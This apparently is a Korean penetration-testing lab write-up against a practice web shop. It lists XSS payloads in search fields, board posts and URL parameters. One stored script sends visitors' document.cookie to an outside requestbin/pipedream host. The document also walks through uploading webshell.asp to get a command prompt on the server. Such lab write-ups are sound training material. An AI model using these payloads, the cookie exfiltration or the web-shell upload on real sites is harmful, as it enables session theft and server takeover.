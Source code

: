 # Penetration-Testing2 - XSS, File upload

### XSS
1. Quick Search 입력창에 <script>alert("xss")</script>

![image](https://user-images.githubusercontent.com/82012857/176285803-79bdef8f-342d-40e9-8d71-d057434fc1d6.png)


2. 게시판에 HTML로 <script>alert(document.cookie)</script>

![image](https://user-images.githubusercontent.com/82012857/176285816-a06795fa-2c6f-493d-84bb-dfa9f91eca7d.png)

3. 아이디 중복확인의 URI에서 id값을 <script>alert("xss")</script>로 대치함

![image](https://user-images.githubusercontent.com/82012857/176285835-ebdf1ca5-a36f-4333-bdaa-61814d011795.png)
![image](https://user-images.githubusercontent.com/82012857/176285846-af12d59e-8331-4e29-ab7e-ff1c3668f403.png)

4. Advances Search의 검색어 Best10에 들어가서 URI부분에 http://61.39.155.24:50003/demoshop/shop/shop_searchresult.asp?frmSearchWord= 의 파라미터를 <script>alert("xss")</script>로 대치함

![image](https://user-images.githubusercontent.com/82012857/176285862-e6d4d8fb-487e-41d2-a295-cedf6f537ba8.png)
![image](https://user-images.githubusercontent.com/82012857/176285890-f1d80d40-cbec-4cad-9097-31ab7f494afc.png)

5. Keyword를 Search하는데 프록시를 켜고 Burp Suite 툴을 통해서 전송 값을 인터셉트하고 s_brand의 값을 BeneFit에서 <script>alert("xss")</script>로 대치하여 Forward

![image](https://user-images.githubusercontent.com/82012857/176285966-4f6da73a-69f2-4fd5-9717-af2e4068e242.png)
![image](https://user-images.githubusercontent.com/82012857/176285977-91ee3bee-f6e5-4d4c-88b0-06692f8cae02.png)
![image](https://user-images.githubusercontent.com/82012857/176285983-327fde04-1f58-43fb-a9b5-57c6a21e5e1c.png)

6. 게시판에 requestbin주소 스크립트를 올려서 클릭을 유도
/* <script>image = new Image();image.src=
'[https://en56a9kxt5rsp.x.pipedream.net/?'+document.cookie;</script](https://en56a9kxt5rsp.x.pipedream.net/?%27+document.cookie;%3C/script)> */

![image](https://user-images.githubusercontent.com/82012857/176286717-ff7c94a8-2e6a-4a8e-94f2-f43aa52d28cf.png)
![image](https://user-images.githubusercontent.com/82012857/176286728-3c68b3b5-eae2-4e52-a6d5-7d953725d89a.png)

#
### 파일 업로드
Board에 webshell.asp파일을 업로드하고 URI에서 상위경로 확인
http://61.39.155.24:50003/demoshop/shop_board/
상위 경로에서 upload_file에서의 자신의 파일을 찾고 파일을 클릭하면 cmd화면이 나옴
그 후 ipconfig하면 ip확인 가능

![image](https://user-images.githubusercontent.com/82012857/176286899-a25f5e22-f54f-48fc-b80e-7c3e7ef32116.png)
![image](https://user-images.githubusercontent.com/82012857/176286911-5827c256-5832-465e-8316-015736a1ccbe.png)
